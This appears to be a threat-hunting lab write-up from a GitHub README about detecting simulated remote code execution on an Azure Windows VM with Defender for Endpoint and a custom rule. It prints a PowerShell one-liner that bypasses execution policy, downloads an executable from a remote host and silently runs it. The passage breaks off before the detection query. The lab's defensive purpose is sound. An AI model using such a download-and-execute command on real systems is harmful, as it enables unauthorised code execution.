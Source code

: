 # 🎯Threat Hunt Report: Remote Code Execution Detection (RCE) & Create Detection Rule 📊🛡️

![image (17)](https://github.com/user-attachments/assets/29728b8d-d5e1-4ce0-b939-d7f0d81d49c5)

## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)

### Scenario: The Attacker Executes Remote Code on the VM 💻🔓

Imagine an attacker gains access to the VM through a **vulnerability** or a **phishing attack**. Once inside, they execute a **Remote Code Execution (RCE)** command using PowerShell to download and run a malicious payload, in this case, the **7zip installer**.

Here's how the attacker might have carried out the attack:

1. **Initial Access**: The attacker exploited a vulnerability in the system or tricked a user into downloading and running a malicious attachment (e.g., a weaponized PowerShell script disguised as an innocuous file). 🔓

2. **Execution**: After gaining access, the attacker executes the following PowerShell command to download a malicious executable (7zip installer) from a remote server:
   
   ```powershell
   cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
   ```

3. **Payload Execution**: The attacker uses `Invoke-WebRequest` to download the payload from a remote server. After the file is downloaded, the attacker silently installs the application by executing it with the `/S` (silent) flag, ensuring there are no user prompts during the installation. This download and installation are performed under the guise of a legitimate action, making detection more difficult. 💻⚠️

4. **Detection**: The **MDE** system (Microsoft Defender for Endpoint) detects the unusual PowerShell activity (particularly the use of `Invoke-WebRequest` and `Start-Process` in sequence), triggering an alert and activating the **custom detection rule** you set up. 🚨

---

## How We Found the RCE Payload 💥

Our team created a custom detection rule that specifically searched for the execution of PowerShell commands using Invoke-WebRequest and Start-Process—two common commands that attackers use to download and run payloads remotely. The rule was set to trigger if the system saw these commands within a specific time frame. ⏱️
